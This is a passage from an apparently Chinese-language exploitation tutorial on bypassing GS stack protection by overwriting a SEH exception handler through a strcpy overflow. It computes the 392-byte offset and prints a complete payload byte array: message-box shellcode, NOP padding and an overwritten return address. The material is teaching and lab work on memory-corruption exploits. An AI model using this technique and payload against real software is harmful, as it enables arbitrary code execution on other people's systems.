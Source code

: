 可以看到该函数启用了 GS，很明显，我们这里没有办法去攻击虚函数，这里有 GS 保护，我们也没有办法去攻击返回地址，但是我们来看看异常处理地址：

[![](assets/1708919791-cc959b675c8a80cf53c311a409a5a812.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218121351-1f61a07a-ce14-1.png)

可以看到这里距离我们 buf 最近的异常处理位于 0x0019FF54 位置，那我们是否可以通过超长字符串，来攻击异常处理？  
答案是可以的，我们通过超长字符串，在 strcpy 之后，test 函数的 szBuffer 参数被覆盖，造成异常地址，这样就会调用我们的异常处理了，那我们来写一下 payload：  
异常处理地址（0x19FF54 + 4）相对于我们的 buf 首地址（0x19FDD0）需要 392 字节，所以我们要在 388 ~ 392 位置写上我们要执行的地址：

```bash
unsigned char hexData[392] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90,0x90, 0x90, 0x90, 0x90,
     0xD0, 0xFD, 0x19, 0x00 
```